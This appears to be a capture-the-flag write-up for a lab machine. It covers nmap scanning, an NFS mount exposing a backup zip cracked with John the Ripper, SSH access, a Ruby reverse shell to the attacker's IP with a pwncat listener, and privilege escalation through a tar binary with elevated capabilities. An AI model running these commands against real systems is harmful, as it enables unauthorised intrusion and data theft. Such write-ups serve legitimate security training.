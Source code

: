 first of all we run nmap to enumerate the machine:
        
        nmap -A 10.10.41.15

From the nmap we got around 6000 open ports but the machine suggets to connect on the port 1337 (meme from the older hacker)
after the connection to the previous port says that to 0 from 100th port there is a troll face with inside a message to connect 12345 thta it says
of the presence a NFS misconfigured so we exploit it:
        
        mkdir temporanea
        sudo mount -t nfs 10.10.41.15:/home/nfs temporanea
        ls -a ---> backup.zip

it's time to use john:
        
        zip2john backup.zip > zip.hash
        john zip.hash

inside there is the hades home with the first flag and some ssh credentials, so it's time to find the ssh port

/for copyright we skip the python script to find the right ssh port/

the port is 3333, it's time to connect:
            
        ssh -i id_rsa hades@10.10.41.15 -p 3333

now we're inside the server in a ruby shell by googling aka chatGPT we find some command
        
        Dir.entries('.')
        IO.read('user.txt') you can also use File.read

after that, it ìs time to set a  revshell in order to have a comfy shell in pwncat

   on local host we started the listener:
        
        python3 -m pwncat
        connect -lp 4444

   on remote machine we copy and paste from revshell.com the revshell code
        
        require 'socket'
        spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.8.98.143",4444))

now it's time to privesc so we run linpeas.sh and it tells us that there is a binary with vulnerable capabilities (it means that it has root capabilites when executed)
        
        cd /tmp #you must be in a word writable directory to do that
        /bin/tar -cvf root.tar /root/ 

now we have the root directory compressed in tar format so we can extract the archive and get the root directory contents:

        tar xf root.tar

cd extracted root and we find the root.txt.

Powered By Alessandro Eleuteri & Alessandro Lupini
